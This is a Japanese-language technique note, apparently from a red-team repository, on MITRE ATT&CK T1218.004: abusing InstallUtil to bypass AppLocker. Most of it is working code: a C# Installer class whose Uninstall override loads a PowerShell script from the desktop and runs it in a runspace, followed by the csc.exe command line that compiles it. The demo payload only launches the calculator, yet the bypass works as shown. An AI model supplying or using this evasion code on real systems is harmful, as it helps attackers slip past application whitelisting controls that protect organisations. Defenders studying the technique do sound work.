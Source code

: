 # T1218.004 - InstallUtil

InstallUtil
-------------

InstallUtil を用いた AppLocker のバイパスについて記載します。

|  Type  | Description   |
|:---|:---|:---|
|  ID  |  T1218.004  |
|  Tactic  |  Defense Evasion |
|  Techniques  |  Signed Binary Proxy Execution  |
|  Sub-techniques  |  InstallUtil |

ここではリモート端末にホストされた悪意のあるファイル相当の calc.exe ファイルを取得し実行するマクロを実装します。

AppLocker をバイパスして実行させる ps1 形式の Powershell スクリプトを準備します。
ここでは簡単のために、start-process で電卓を起動させるスクリプトを用意します。
本スクリプトは、AppLocker による Powershell.exe の制限環境では実行することはできません。

![T1218.004-1](images/T1218.004-1.png)

```
using System;
using System.Configuration.Install;
using System.Runtime.InteropServices;
using System.Management.Automation.Runspaces;
public class Program
{
    public static void Main()
    {
    }
}
[System.ComponentModel.RunInstaller(true)]
public class Sample : System.Configuration.Install.Installer
{
    public override void Uninstall(System.Collections.IDictionary savedState)
    {
    Mycode.Exec();
    }
}
public class Mycode
{
    public static void Exec()
    {
    string desktop = System.Environment.GetFolderPath(Environment.SpecialFolder.DesktopDirectory) + "\\app_bypass.ps1";
    string command = System.IO.File.ReadAllText(desktop);
    RunspaceConfiguration rspacecfg = RunspaceConfiguration.Create();
    Runspace rspace = RunspaceFactory.CreateRunspace(rspacecfg);
    rspace.Open();
    Pipeline pipeline = rspace.CreatePipeline();
    pipeline.Commands.AddScript(command);
    pipeline.Invoke();
    }
}
```

```
cmd /c C:\Windows\Microsoft.NET\Framework64\v4.0.30319\csc.exe /r:c:\Windows\assembly\GAC_MSIL\System.Management.Automation\1.0.0.0__31bf3856ad364e35\System.Management.Automation.dll /unsafe /platform:anycpu /out:%USERPROFILE%\Desktop\Program.exe %USERPROFILE%\Desktop\Program.cs

```